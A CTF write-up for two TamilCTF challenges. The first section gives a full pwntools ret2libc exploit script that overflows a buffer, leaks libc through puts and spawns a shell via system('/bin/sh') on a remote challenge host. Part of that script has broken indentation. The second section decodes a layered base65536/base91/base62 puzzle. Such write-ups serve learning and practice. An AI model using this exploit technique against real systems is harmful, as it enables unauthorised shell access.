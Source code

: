 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930134637.png)



*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}





# Bases 485 Points ,22 solves

***We are give a file encoded in some randome gibrish***
```bash
╭─ ~/Desktop/Tamilctf/bases │ sam0x@parrot                                                                                                                                                 ✔ 
╰─ cat file.txt 
噯缾𔔸𠅻診噩ꔻꕳ𔔯煐鸩𠅙欫葦葔踥慚灩ꉊ蠫噰噷葌鹀𓈻𖤨𐘱𔑬訮桷陦ꄷ橪鰨𔔫ꉕ蔥𖠻𖡻詓败捄堲絠浩怦𔑢蝂潣縨𓌩蹗襠ꅮ洱𒀰萵饌鍟𒀲橒昻萳靓𔕧罀ᕣ
```

***After a bit of researching and previous ctf ideas found out that this  is a base65536 encoded file***

*BASE65536 as per records:*
	- Base65536 is a binary encoding optimised for UTF-32-encoded text. (For transmitting data through Twitter, Base65536 is now considered obsolete; see 		- Base2048.) This JavaScript module, base65536, is the first implementation of this encoding.
	- Base65536 uses only "safe" Unicode code points - no unassigned code points, no whitespace, no control characters, etc..
	
## To deocde the base65536 we first convert it into a unicode using npm module of base65536
```javascript
	import { encode, decode } from 'base65536'
import fs from 'fs'

var  data=fs.readFileSync('file.txt').toString('utf-8')
var decoded = new Uint8Array(decode(data))

fs.writeFileSync('out',decoded)
```
__This gives us a decoded output : 26p0EtovXlssmYqbk1UON3JCIFVyYW3V3culA1cJ0AJ8mHvzgWbefttYEpfYlcpt9nh3oZiaWI24d0jzcxBOdq0Ybes3EKUw7GEEfLYM0qpp___
 	- This doesnt look like any known base encodings 
	- After a bit of googling found out that this is a base91 encoded value

Fun thing ***Found a github repo that finds and deocdes the known basex values***

[Github](https://github.com/mufeedvh/basecrack)
	
**After that thats a matter of multiple times of decoding**
	- The order goes like BASE65535->BASE91->BASE62->BASE32->ASCII85->FLAG
***FLAG***
## TamilCTF{B4s3_C1ph3r_4r3_re4lly_c00l!!}

